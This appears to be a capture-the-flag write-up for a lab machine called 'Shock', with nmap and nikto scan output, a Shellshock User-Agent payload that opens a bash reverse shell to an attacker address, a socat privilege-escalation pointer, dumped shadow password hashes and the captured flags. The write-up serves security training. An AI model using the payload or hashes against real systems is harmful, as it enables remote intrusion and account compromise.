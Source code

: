 # SHOCK

![](../.gitbook/assets/d7c9d8e2be414722a151cad7e6d837ea.png)

## NMAP SCAN

```text
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:ee:09:94:d5:4b:4a:d9:3b:95:3a:d6:63:e7:98:6f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDFKAzQlwel/YupBxHiUV+I8W5n0N8iICjRLMooIzfIU1APArOWV7J9xdQ5aIbFzEEo9veZ4LvsIZeBg9n34+eP0HuvG1UpmK+kiFYpf0M08ldtXM7nHzgcJBbw4V0tc+rgyWMw13fX6BtULOXknVWr8WTT1qeQDgdo5HTwTVIHrJmc78AAKRIeVHNzspK0Keb0L5duKgsvNqSbJpRWoMoU88lmupPqDdpZmC1ff7YVOrPJhDiwkrr2rnwnwKhXJPrfVJUJq5N+lGYmXkf4VlxNyPzslcVooZGdHlbThLMGTY0Es4Lzs1z/gSGHXulhTCtjdSPYIYXRi5fzy9EIRX0t
|   256 b9:f8:52:aa:62:02:af:6c:09:ca:dc:3e:7b:b3:94:b7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBrPsISLprTRHELKrIz2mrjSwKdGC7AAHNzdMov8ZXr8mkn12CFcItIpAmJO51IohN+STGOtSvFUYEEH8CaEQ9E=
|   256 53:5d:98:f7:61:e0:57:df:38:96:f9:be:59:77:6c:f4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKQEkZKIxAZBgPNbxtQo8pJDqRfdqsx4O6cZhoiCPIGC
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Steak House Shock
```

## PORT 80 ENUMERATION

![](../.gitbook/assets/49eb4f3460ba437fa6800ed29a5e2bd4.png)

### NIKTO

```text
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Server may leak inodes via ETags, header found with file /, inode: 1128, size: 59e40c3babdf0, mtime: gzip
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3092: /cgi-bin/test.cgi: This might be interesting...
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8725 requests: 0 error(s) and 15 item(s) reported on remote host
+ End Time:           2021-03-12 20:44:35 (GMT-5) (411 seconds)
```

## EXPLOIT SHELLSHOCK

```text
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.0.63/2332 0>&1'
```

![](../.gitbook/assets/266a0b3a883c4e47aefde1039f13a6f8.png)

![](../.gitbook/assets/d88d7fbb2bcd4f8a8beea7014dbdac1c.png)

## PRIVESC \(2 WAYS\)

* [https://gtfobins.github.io/gtfobins/socat/\#sudo](https://gtfobins.github.io/gtfobins/socat/#sudo)

![](../.gitbook/assets/92117eeeb0fa4698b28b583e2fea36a8.png)

OR

![](../.gitbook/assets/79b1a8cc2b9b4dd890b9564992d3b25e.png)

![](../.gitbook/assets/555e805a004945509bfeb3ff9d9e48bf.png)

## CREDS

```text
root:$6$MaMKK.eA$rEco8rH5lbqN8boI3g9MW2vqXBqnRBn1WfIr/B5Aa3ZpYkQHuZHMXm7UzpHv4FmwJn9mvrlX/wWEOd5FShOnI1:18302:0:99999:7:::
scott:$6$QtkZcGUv$0/83BtM9pJyuBv6M6AHqr8vaZrtT40hVrmNRmtRT4Yaz1JKdm6RbCtsj9g5gQjVmkHA2lcTq0XeRqeUNbc7Ar/:18302:0:99999:7:::
```

## FLAGS

### USER

```text
5198cf7dbec41da68b367d5681f63996
```

### ROOT

```text
669fe3374599b663a0da972ecbf7e2cb
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

